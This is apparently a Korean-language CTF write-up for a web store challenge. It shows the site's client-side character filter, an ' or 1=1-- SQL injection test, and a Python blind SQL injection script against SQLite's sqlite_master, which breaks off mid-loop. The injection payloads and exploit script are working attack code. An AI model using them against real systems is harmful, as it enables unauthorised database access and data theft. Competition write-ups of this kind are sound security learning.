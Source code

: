 ```javascript
<script>
    const form = document.querySelector('form')
    form.addEventListener('submit', (event) => {
    const item = form.querySelector('input[name="item"]').value
    const allowed = new Set(
                    'abcdefghijklmnop' +
                    'qrstuvwxyzABCDEF' +
                    'GHIJKLMNOPQRSTUV' +
                    'WXYZ0123456789, '
                )
    if (item.split('').some((char) => !allowed.has(char))) {
        alert('Invalid characters in search query.')
        event.preventDefault()
        }
    })
</script>            
```              

index.html 페이지에 유저 입력에 대해 문자 필터링을 걸어놓았기에 직접 `requests` 요청을 보내 결과를 확인했다.     
SQL Injection 취약점인 것 같아 `' or 1=1--` 입력을 시도해보니 다른 계정 정보들도 나오는 것을 확인할 수 있었다.     

플래그 테이블은 따로 있을 것 같아 `information_schema`를 사용해 `Blind SQL Injection`을 시도했지만 오류가 떴다.    
그래서, `MySQL`이 아닌 다른 데이터베이스를 사용하는 것 같아 시도해보던 중 `SQLite` 버전 확인하는 쿼리가 먹히는 것을 확인했다.       

이후, `Blind SQL Injection` 쿼리를 작성하여 플래그를 획득했다.                              
       
### Exploit Code  
```python
import requests

url = "https://store.web.actf.co"

result = ""
length_of_table = 43
for i in range(1,60):
    print(i)

    sql = f"' or length((SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'))={i}--"
    print(sql)

    r = requests.post(
            f"{url}/search", 
            data={
                "item": f"{sql}"
            }
    )
    assert r.status_code == 200

    if "<td>Otamatone</td>" in r.text:
        length_of_table = i 
        print(r.text)
        break
       
print("Length of table: ", length_of_table)

table_name = "items,flagsd69197c9018f1d6e853981d5a805846f"
table_name = "flagsd69197c9018f1d6e853981d5a805846f"  
# table_name = "items,"

for i in range(len(table_name) + 1, length_of_table + 1): 
    print(i)
    check = False
    for j in range(48, 58): 
```